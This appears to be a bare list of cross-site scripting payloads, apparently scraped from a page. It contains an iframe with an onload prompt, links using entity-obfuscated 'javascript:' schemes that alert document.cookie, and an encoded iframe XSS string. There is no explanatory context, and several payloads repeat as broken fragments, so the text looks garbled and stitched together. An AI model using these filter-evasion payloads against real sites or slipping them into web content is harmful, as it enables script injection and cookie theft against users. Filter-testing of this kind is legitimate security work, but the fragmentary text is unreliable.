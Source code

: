 

<iframe/src="<iframe/src=@"/onload=prompt(1) /*iframe/src*/>

<a href=javascript&colon;alert&lpar;document&period;cookie&rpar;>Click Here</a>

&lt;IFRAME SRC=&quot;javascript:alert(&apos;XSS&apos;);&quot;&gt;&lt;/IFRAME&gt;


<!-- ######################################################################################################## -->


<iframe <>

<a href=javascript&colon;alert(document.cookie)>Click Here</a>



=&gt;&lt;/IFRAME&gt;




<!-- ######################################################################################################## -->

































<iframe <>

<a href=javascript&colon;alert(document.cookie)>Click Here</a>



=&gt;&lt;/IFRAME&gt;
Show quoted text
